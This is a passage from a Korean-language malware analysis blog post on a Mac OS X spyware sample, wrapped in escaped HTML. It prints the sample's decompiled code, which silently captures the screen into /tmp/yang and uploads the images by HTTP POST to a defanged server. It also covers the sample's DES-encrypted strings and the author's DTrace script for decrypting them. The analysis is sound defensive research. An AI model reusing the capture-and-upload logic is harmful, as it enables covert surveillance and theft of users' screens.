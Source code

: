 ```yaml
    stringWithFormat:@“%@%@%@%@“ tmp yang screenshotdate extension]; // \"/tmp/yang/[DATE].png\"\n\n\tNSTask
    screenshot_task = [[NSTask alloc] init];\n\t[screenshot_task setLaunchPath:[cry
    ccx:@“rC4TpBd2mYxv6TTdiRmofpvZwEgL5qiD”]]; // \"/usr/sbin/screencapture\"\n\tNSArray
    arguments = [NSArray arrayWithObjects:@“-x” @“-T” @“60” @“fullpath”];\n\n\t[screenshot_task
    setArguments:arguments];\n\t[screenshot_task launch]; // \"/usr/sbin/screencapture
    -x -T 60 /tmp/yang/[DATE].png\"를 실행\n\t[screenshot_task waitUntilExit];\n\tsleep(30);\n\t[self
    bong];\n\treturn_val = sleep(30);\n\treturn return_val;\n}</pre>\n절차는 다음과 같다.\n<ul>\n\t<li>\"/tmp/yang\"
    폴더가 존재하는지 확인한다. 없으면 해당 디렉터리를 생성한다.</li>\n\t<li>NSTask의 launch 메서드를 이용하여 \"/usr/sbin/screencapture
    -x -T 60 /tmp/yang/yy-MM-dd-HH:mm:ss.png\" 를 실행한다. 옵션으로 인해 화면 캡처 시 소리가 나지 않게 되고(-x),
    애플리케이션 실행 후, 60초 뒤에 이미지 파일을 생성(-T 60)한다.</li>\n\t<li>명령어가 종료되면 bong 메서드를 실행한다.</li>\n</ul>\n&nbsp;\n<h2>6.
    캡쳐된 화면을 특정 URL에 업로드 (bovx method part 2 - bong method)</h2>\nbong 메서드를 이용하여 특정
    URL에 악성코드가 캡쳐한 이미지를 올려둔다. 우선 URLRequest로 서버 접속을 수행한다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.42.16-AM.png\"><img
    class=\"aligncenter size-full wp-image-735\" alt=\"bong method 1\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.42.16-AM.png\"
    width=\"823\" height=\"398\" /></a>\n\n그리고 나서 HTTP Request 패킷을 생성한다. 패킷에서 HTTP
    Method, boundary, 'Content-Type\"은 암호화되어 있으므로 cxx 메서드로 복호화하여 패킷을 생성한다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.43.27-AM.png\"><img
    class=\"aligncenter size-full wp-image-736\" alt=\"bong method part II\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.43.27-AM.png\"
    width=\"964\" height=\"496\" /></a>\n\n결과적으로 만들어지는 HTTP 패킷의 내용은 다음과 같다. (주요 정보는
    생략하였다.)\n<blockquote>POST hxxp://xxxx.com/doxc/aqw.php?yin=~~\nmultipart/form-data;
    boundary=------------------------2342xxx234235xxxxx230\nContent-Disposition: attachment;
    name=\"userfile\"; filename=xxx\nContent-Type: application/octet-stream\n[encoded
    data]</blockquote>\n이렇게 이미지 파일 전송 작업을 마치면, 다시 서버 연결 상태를 체크하는 루틴으로 돌아가서 반복적인 작업을
    수행한다.\n\n&nbsp;\n<h2>7. 민감한 문자열은 암호화하여 보관</h2>\nMac OS X에는 고성능의 상용 패커가 전무하기 때문에
    자신의 주요 정보를 암호화하는 방향으로 최대한 자신의 정보를 숨기려는 노력을 한다. 이 악성코드도 앞 서 코드를 보면 알겠지만, 대부분의 주요
    데이터를 암호화하여 저장하고 있다. 이런 암호화에 사용되는 메서드가 cxx이다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.44.26-AM.png\"><img
    class=\"aligncenter size-full wp-image-737\" alt=\"cxx method\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.44.26-AM.png\"
    width=\"709\" height=\"374\" /></a>\n\ncxx 메서드는 내부적으로 cry 클래스를 사용하며 결국 cry 클래스의
    end 메서드에서 암호화를, ded 메서드에서 복호화를 수행한다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.45.06-AM.png\"><img
    class=\"aligncenter size-full wp-image-738\" alt=\"ded method\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.45.06-AM.png\"
    width=\"403\" height=\"257\" /></a>\n\n복호화를 담당하는 ded 메서드는 내부적으로 <a href=\"https://developer.apple.com/library/mac/documentation/Darwin/Reference/ManPages/man3/Common%20Crypto.3cc.html\"
    target=\"_blank\">CommonCrypto</a>(3cc) 함수인 CCCrypt를 이용하여 복호화를 수행한다. 함수에 들어가는
    각각의 인자 값은 다음과 같다.\n<pre class=\"lang:c++ decode:true\" title=\"CCCrypt\">CCCrypt(KCDDecrypt,
    KCCAlgorithmDES, kCCOptionPKCS7Padding, [KEY], 8, IV(0x0807060504030201), [DATAIN],
    SizeofDataIn, [DATAOUT], dataOutAvailable, dataOutMoved);</pre>\n사실 이걸 디스어셈블로
    풀려면 생각보다 시간이 많이 걸릴 수 있다.  이렇게 정직한 악성코드의 경우에도 원격 디버깅을 하지 않으면 쓸데없이 분석 시간을 축낼 수 있다.
    여기에서는 좀 더 편리한 방법인 <a href=\"http://en.wikipedia.org/wiki/Dtrace\" target=\"_blank\">DTrace</a>(Dynamic
    Trace)를 사용하였다. 최초 실행 시점부터 문자열을 추출할 수 있도록 lldb(<a href=\"http://en.wikipedia.org/wiki/LLVM\"
    target=\"_blank\">LLVM</a> Debugger)로 시작지점에 브레이크포인트를 잡고 실행했다. 사용된 스크립트는 다음과 같다.\n<pre
    class=\"lang:default decode:true\" title=\"hooked cccrypt function\">/* written
    by n0fate\n * dtrace -q -s cccrypt.d PID\n */\npid$1:libcommonCrypto.dylib:CCCrypt:entry\n/execname
    == \"worty\"/\n{\n\tprintf(\"%d %d %d key:%x size:%d iv:%x datainput:%x, dataoutput:%x\",
    arg0, arg1, arg2, arg3, arg4, arg5, arg6, arg8);\n\tself-&gt;dataoutput = arg8\n}\n\npid$1:libcommonCrypto.dylib:CCCrypt:return\n/execname
    == \"worty\"/\n{\n\tprintf(\"(%s)n\", copyinstr(self-&gt;dataoutput));\n\tustack(10,0);\n}</pre>\n함수
    시작 시점에 인자 값을 확인하고, 리턴된 후에 dataoutput에 저장된 문자열을 추출한다. 그리고 호출 스택을 뿌려줘서 어떤 메서드에서
    해당 함수를 호출하는지 확인한다. 이로 인해, 복호화된 문자열의 원래 암호문을 손쉽게 찾을 수 있다.  수행 결과는 다음과 같다.\n<pre
    class=\"lang:sh decode:true\" title=\"dtrace hooked ccrypt and showing user stack\">1
```